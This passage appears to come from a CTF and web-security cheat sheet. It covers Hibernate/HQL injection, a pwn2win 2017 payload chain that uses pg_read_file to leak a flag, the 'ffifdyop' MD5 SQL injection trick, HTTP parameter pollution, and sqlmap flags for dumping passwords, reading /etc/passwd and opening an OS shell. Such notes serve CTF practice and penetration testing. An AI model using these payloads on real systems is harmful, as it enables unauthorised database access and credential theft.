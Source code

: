 ## ORM injection

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
    - 單引號跳脫法
        - MySQL 中，單引號用 `\'` 跳脫
        - HQL 中，用兩個單引號 `''` 跳脫
        - `'abc\''or 1=(SELECT 1)--'`
            - 在 HQL 是一個字串
            - 在 MySQL 是字串+額外 SQL 語句
    - Magic Function 法
        - PostgreSQL 中內建 `query_to_xml('Arbitary SQL')`
        - Oracle 中有 `dbms_xmlgen.getxml('SQL')`

HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
        - 庫名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=5566`
        - DBA? `--is-dba`
        - 爆帳密: `--passwords`
        - 看權限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 讀檔: `--file-read=/etc/passwd`
        - Delay時間: `--time-sec=10`
        - User-Agent: `--random-agent`
        - Thread: `--threads=10`
        - Level: `--level=3`